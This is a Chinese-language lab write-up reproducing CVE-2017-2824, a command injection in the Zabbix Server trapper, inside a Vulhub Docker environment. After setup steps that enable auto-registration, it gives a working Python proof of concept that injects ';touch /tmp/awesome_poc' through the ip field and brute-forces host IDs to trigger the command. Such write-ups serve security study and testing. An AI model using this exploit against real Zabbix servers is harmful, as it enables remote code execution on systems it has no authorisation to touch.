 # Zabbix Server trapper命令注入漏洞 CVE-2017-2824

## 漏洞描述

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。其Server端 trapper command 功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个Zabbix proxy发起请求，从而触发漏洞。

参考链接：

- https://talosintelligence.com/reports/TALOS-2017-0325

## 环境搭建

Vulhub执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。访问`http://your-ip:8080/index.php`，使用账号密码`admin/zabbix`登录后台，进入Configuration->Actions，将Event source调整为Auto registration，然后点击Create action，创建一个Action，名字随意：

![image-20220302234333155](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022343242.png)

第三个标签页，创建一个Operation，type是“Add Host”：

![image-20220302234456751](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022344809.png)

保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为Agent。

## 漏洞复现

使用这个简单的POC来复现漏洞：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/awesome_poc"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

查看到如下结果时，则说明命令执行成功：

![image-20220303152549893](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203031525035.png)

进入server容器，可见`/tmp/awesome_poc`已成功创建：

![image-20220303151927792](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203031519873.png)

